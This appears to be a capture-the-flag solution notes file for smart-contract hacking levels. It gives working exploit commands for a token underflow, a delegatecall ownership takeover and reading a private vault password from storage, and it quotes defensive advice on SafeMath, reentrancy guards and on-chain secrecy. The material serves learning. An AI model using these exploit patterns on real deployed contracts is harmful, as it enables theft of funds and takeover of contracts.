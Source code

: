 # notes

## Token:

paste this line in command:
```js
await contract.transfer(contract.address, 500)
```
this will cause underflow `2^256 - 480 = 115792089237316195423570985008687907853269984665640564039457584007913129639456`.

### success message:

```txt
Overflows are very common in solidity and must be checked for with control statements such as:

if(a + c > a) {
  a = a + c;
}
An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

a = a.add(c);
If there is an overflow, the code will revert.
```

## Delegate:

paste this line command:

```js
await contract.sendTransaction({data:web3.eth.abi.encodeFunctionSignature("pwn()")})
```

or use [this script](../script/DelegateAttacker.s.sol)

### success message:

Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The delegatecall function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the The [Parity Wallet Hack](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) Explained article for an accurate explanation of how this idea was used to steal 30M USD.

## Vault:
- get contract's address using `contract.address`. I've got `0x06B1D212B8da92b83AF328De5eef4E211Da02097`.
- If you run `await contract.locked()` you'll get true.
- password is in storage position 1. so read it using:

```bash
cast storage 0x06B1D212B8da92b83AF328De5eef4E211Da02097 1
>> 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

-  now call the `unlock(bytes32)` function using cast:
   
```bash
cast send 0x06B1D212B8da92b83AF328De5eef4E211Da02097 "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --rpc-url http://127.0.0.1:8545 --private-key 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80
```
- **wait a few sec like 10-15 seconds** & now if you run `await contract.locked()` in console, you'll get `false`.

### success message:

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.

## King:

### Links:
- [About King](https://www.kingoftheether.com/thrones/kingoftheether/index.html)
- [King Postmortem](https://www.kingoftheether.com/postmortem.html)

## Reentrancy:

I refered this [blog](https://www.cyfrin.io/glossary/sending-ether-transfer-send-call-solidity-code-example)

### success message:

In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that call will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

transfer and send are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.io/blog/2019/09/stop-using-soliditys-transfer-now/), [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

**The DAO Hack**

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. [See 15 lines of code that could have prevented TheDAO Hack.](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942)